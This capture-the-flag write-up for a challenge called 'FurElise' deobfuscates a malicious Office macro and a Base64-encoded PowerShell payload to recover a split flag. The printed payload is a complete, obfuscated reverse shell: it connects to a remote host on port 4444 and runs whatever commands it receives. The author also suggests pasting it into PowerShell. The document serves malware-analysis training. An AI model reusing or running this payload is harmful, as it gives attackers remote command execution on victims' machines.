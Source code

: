 # FurElise

## Solution

The challenge requires us to download a zip file containing a text file ```heartbroken.txt```. The file contains some Powershell commands along with many lines of 'FurElise'.
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
                 [REDACTED]
```
To remove the unnecessary lines, we can use ```uniq``` command in Linux rather than manually removing the ```FurElise```. The output will be stored in ```new.txt```
```
cat heartbroken.txt | uniq > new.txt
```
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	Replace(luY2lkZW50IG,"&","")
	Replace(luZyB0aGF0IG,"&","")
	Replace(VsZCBkZWNvZG,"&","")
	Replace(N0b3JzLCBjb3,"&","")
```
However, we can see that & makes the command hard to understand. So, we need to remove & from the text file.
```
cat new.txt | sed 's/&//g'
```

```
Sub Document_Open()
        Set dCBkaW1pbm = CreateObject("WScript.Shell")
        pbmcgYXQgY3Jvc = "https://"
        CBtYXR0ZXJucy = "pastebin.com"
        4gb3ZlciB3ZSB = "/raw/Kh4VyUYc"
        ''''''FürElise''''''FürElise
        Replace(luY2lkZW50IG,"","")
        Replace(luZyB0aGF0IG,"","")
        Replace(VsZCBkZWNvZG,"","")
        Replace(N0b3JzLCBjb3,"","")
        Replace(BkZWZpbmVkIH,"","")
        Replace(4gY29tcGxleC,"","")
        Replace(pbmcgYXQgY3Jvc,"","")
        Replace(CBtYXR0ZXJucy,"","")
        Replace(4gb3ZlciB3ZSB,"","")
        dCBkaW1pbm.Exec("whoami")
        ''''''FürElise''''''FürElise
        luY2lkZW50IG = “https://gist.githubusercontent.com/zachwong02”
        luZyB0aGF0IG = “/5a8e7d365c6d9b649b12be3c890c8cb4”
        VsZCBkZWNvZG = “/raw”
        N0b3JzLCBjb3 = “/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9”
        BkZWZpbmVkIH = “/gistfile1”
```

Now, we can clearly see two links that we can access. 
https://pastebin.com/raw/Kh4VyUYc and https://gist.githubusercontent.com/zachwong02/5a8e7d365c6d9b649b12be3c890c8cb4/raw/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9/gistfile1.txt

### Flag 1/2
From the first link we get the first part of the flag
```
ABOH23{d!ff1cU17_s0Ng
```

From the second link, we get encrypted lines that also mention Powershell. By using CyberChef, we can conclude that it is Base64 encode. You can also copy the encrypted lines and use Base64 decode command in Linux.
```
cat flag2.txt | base64 -d
```

```
if (-not(&($([char](99+84-99)+[char](67*101/67)+[char](0+115-0)+[char](0+116-0)+[char](16+45-16)+[char](114+80-114)+[char](96*97/96)+[char](0+116-0)+[char](0+104-0))) -Path ($('$'+'e'+'n'+'v'+':'+'U'+'S'+'E'+'R'+'P'+'R'+'O'+'F'+'I'+'L'+'E') + ([string]::join('', ( (92,68,101,115,107,116,111,112,92,77,117,115,105,99) |%{ ( [char][int] $_)})) | % {$_})) -PathType (([string]::join('', ( (76,101,97,102) |%{ ( [char][int] $_)})) | % {$_})))){
        & (("jDkavXf-p98OYShtMg4A2cN5xPIHeF1zyElTnwZmRbLKQGisJC0UWoBVduqr637")[37,59,46,15,28,7,14,53,47,15] -join '') (('d'+'o'+'n'+'t'+' '+'e'+'x'+'e'+'c'+'u'+'t'+'e'+' '+'t'+'h'+'e'+' '+'s'+'c'+'r'+'i'+'p'+'t'+'.'+'.'+'.'+' '+'a'+'m'+'a'+'t'+'e'+'u'+'r'+' '+'m'+'o'+'m'+'e'+'n'+'t'+'.'+'.'+'.'))
        return
}
$LHOST = $([char](36*36/36)+[char](76+40-76)+[char](0+49-0)+[char](27*43/27)+[char](0+49-0)+[char](27*43/27)+[char](86+48-86)+[char](0+45-0)+[char](0+49-0)+[char](0+41-0)+[char](0+99-0)+[char](98+97-98)+[char](52+116-52)+[char](7*101/7)+[char](0+62-0)+[char](0+57-0)+[char](0+50-0)+[char](0+46-0)+[char](43*49/43)+[char](0+54-0)+[char](116+56-116)+[char](37*46/37)+[char](86*50/86)+[char](94*50/94)+[char](0+49-0)+[char](76+46-76)+[char](0+49-0)+[char](74+52-74)+[char](96*56/96));
$LPORT = ($(4444));
$TCPClient = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) Net.Sockets.TCPClient($LHOST, $LPORT);
$NetworkStream = $TCPClient.GetStream();
$StreamReader = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamReader($NetworkStream);
$StreamWriter = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamWriter($NetworkStream);
$StreamWriter.AutoFlush = $true;
$Buffer = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) System.Byte[] $($(1024));
while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length);
$c2 = $([char](27*104/27)+[char](60+116-60)+[char](57*116/57)+[char](67*112/67)+[char](18+115-18)+[char](28+58-28)+[char](76*47/76)+[char](50*47/50)+[char](83*112/83)+[char](89*97/89)+[char](0+115-0)+[char](23*116/23)+[char](7*101/7)+[char](78+98-78)+[char](76*105/76)+[char](86+110-86)+[char](0+46-0)+[char](86*99/86)+[char](52*111/52)+[char](100+109-100)+[char](10*47/10)+[char](0+114-0)+[char](94+97-94)+[char](95+119-95)+[char](25*47/25)+[char](0+74-0)+[char](59*67/59)+[char](31+103-31)+[char](0+76-0)+[char](56+122-56)+[char](57+52-57)+[char](0+102-0)+[char](40*49/40));
$Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) };
if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_}) ($Code) 2>&1 } catch { $_ };
$StreamWriter.Write($(($('$'+'O'+'u'+'t'+'p'+'u'+'t'+'`'+'n'))));
$Code = $null } };
$TCPClient.Close();
$NetworkStream.Close();
$StreamReader.Close();
```
By pasting the command inside Powershell, we can know the value of each variable. Variable ```c2 ``` contains the link for second flag

<p align="center">
  <img width="80%" height="300" src="images/Capture1.PNG">
</p>

https://pastebin.com/raw/JCgLz4f1

### Flag 2/2
```
_FROm_hEaRtBrE4K}
```

### Complete Flag
The flag for this challenge is ```ABOH23{d!ff1cU17_s0Ng_FROm_hEaRtBrE4K}```
